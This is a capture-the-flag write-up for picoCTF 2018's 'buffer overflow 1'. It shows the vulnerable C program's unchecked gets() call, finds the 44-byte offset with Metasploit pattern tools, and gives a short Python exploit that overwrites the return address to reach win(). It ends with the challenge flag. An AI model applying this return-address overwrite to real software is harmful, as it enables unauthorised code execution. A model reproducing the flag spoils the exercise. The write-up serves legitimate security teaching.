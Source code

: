 # buffer overflow 1
**Points: 200**

## Binary Exploitation

## Question
>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program? You can find it in /problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba on the shell server. Source.

### Hint
>This time you're actually going to have to control that return address!
>
>Make sure you consider Big Endian vs Little Endian.
## Solution
Check the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
We have to redirect the _eip_ to win(). To do that we have to set the direction of win() as the return address.
First we have to find the padding, we can do it using msf-pattern:
```
# msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
# msf-pattern_offset -q 0x35624134
[*] Exact match at offset 44
```
So our exploit : "A"*44 + _win dir_
```gdb-peda$ p win
$2 = {<text variable, no debug info>} 0x80485cb <win>
```

```python
import struct

padding = "A" * 44
ret = struct.pack("<I",0x80485cb)
print padding + ret
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/buffer%20overflow%201/images/1.png)

### Flag
`picoCTF{addr3ss3s_ar3_3asy56a7b196}`

